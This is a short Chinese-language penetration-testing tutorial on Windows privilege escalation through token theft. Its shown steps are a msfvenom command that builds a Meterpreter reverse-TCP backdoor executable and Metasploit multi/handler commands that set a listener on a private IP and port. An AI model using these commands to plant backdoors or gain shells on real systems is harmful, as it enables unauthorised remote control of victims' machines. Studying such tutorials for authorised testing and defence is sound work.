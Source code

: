 # 权限提升——windows提权

## 令牌窃取

1. 令牌窃取提权只适用于本地用户

2. 使用msf生成后门

   ``` shell
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
   ```

   ![windows提权后门生成](img/windowsTq1.png)

   后门成功生成

   ![msf后门](img/windowsTq2.png)

3. 使用msf模块multi/handler，加载payload：windows/meterpreter/reverse_tcp，设置本地监听IP和端口

``` shell
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.2.108
set lport 3333
run
```

![msf监听](img/windowsTq3.png)
